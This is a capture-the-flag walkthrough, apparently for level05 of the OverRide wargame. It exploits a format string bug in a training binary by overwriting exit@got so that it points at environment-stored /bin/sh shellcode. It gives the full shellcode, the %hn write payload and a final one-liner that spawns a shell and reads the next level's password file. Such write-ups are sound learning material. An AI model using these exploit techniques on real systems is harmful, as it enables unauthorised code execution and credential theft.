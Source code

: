 # Level05 Exploit (OverRide 42)

## Goal

Exploit a format string vulnerability in the `level05` binary to execute shellcode and escalate to `level06`.

---

## 1. Understand the Vulnerability

```bash
$ ./level05
coucou
coucou
```

Using GDB:

```bash
gdb ./level05
disassemble main
```

We find the following:

```asm
0x08048500 <+188>: lea eax,[esp+0x28]   ; buffer
0x08048504 <+192>: mov DWORD PTR [esp],eax
0x08048507 <+195>: call 0x8048340 <printf@plt>
```

It reads user input using `fgets` into a 100-byte buffer and then prints it using `printf(buffer)` — vulnerable to format string attacks.

---

## 2. Check Stack Position

```bash
$ python -c 'print("BBBB-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x")' | ./level05
```

Look for the position where "BBBB" appears — in this case, it's typically at **10th argument**.

---

## 3. Prepare Shellcode

Use a NOP sled and standard shell-spawning shellcode:

```bash
export PAYLOAD=$(python -c 'print("\x90"*1000 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")')
```

Or without exporting:

```bash
PAYLOAD=$(python -c 'print("\x90"*1000 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")')
```

---

## 4. Get Shellcode Address

Create helper to print env var address:

**getenv.c**:

```c
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char **argv) {
    printf("%p\n", getenv(argv[1]));
    return 0;
}
```

Compile:

```bash
gcc -m32 -o getenv getenv.c
```

Run:

```bash
$ env -i PAYLOAD=$PAYLOAD /tmp/getenv PAYLOAD
0xffffdc59  # example address, varies
```

---

## 5. Locate exit() in GOT

Use GDB:

```bash
gdb ./level05
(gdb) info functions exit
```

Find `exit@plt`: `0x08048370`, which jumps to:

```bash
(gdb) x/i 0x08048370
=> jmp *0x080497e0
```

So `exit@got.plt` = `0x080497e0`

---

## 6. Craft Format String

Split shellcode address (example `0xffffdc59`) in hex:

* Low: `0xdc59`
* High: `0xffff`

Write to 2 bytes at `0x080497e0` and `0x080497e2`

Format string payload:

```bash
python -c 'print("\xe0\x97\x04\x08\xe2\x97\x04\x08" + "%56401d" + "%10$hn" + "%9126d" + "%11$hn")'
```

Explanation:

* `\xe0\x97\x04\x08`: address to write lower 2 bytes
* `\xe2\x97\x04\x08`: address to write higher 2 bytes
* `%56401d`: pad to `0xdc59`
* `%10$hn`: write to first address
* `%9126d`: pad to `0xffff`
* `%11$hn`: write to second address

---

## 7. Exploit!

Launch with shellcode in env and payload through `stdin`:

```bash
(python -c 'print "\xe0\x97\x04\x08"+"\xe2\x97\x04\x08"+"%56401d"+"%10$hn"+"%9126d"+"%11$hn"';cat) | env -i PAYLOAD=$(python -c 'print "\x90"*1000+"\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh"') ./level05
```

If successful:

```bash
whoami
level06
cat /home/users/level06/.pass
```

---

## Summary

* Vulnerability: format string via `printf(buffer)`
* Technique: overwrite `exit@got` with shellcode address
* Delivery: shellcode via env var `PAYLOAD`, exploit via `stdin`


